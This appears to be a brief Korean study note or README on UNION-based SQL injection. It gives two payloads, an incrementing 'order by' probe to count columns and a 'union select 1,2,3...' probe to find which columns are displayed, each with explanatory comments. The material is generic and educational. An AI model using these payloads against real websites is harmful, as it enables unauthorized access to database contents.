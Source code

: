 # shincheonji

#UNION SQL INJECTION
order by: 어떤것으로 정렬 하겠다
```
aa' order by 1 #1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다.
```
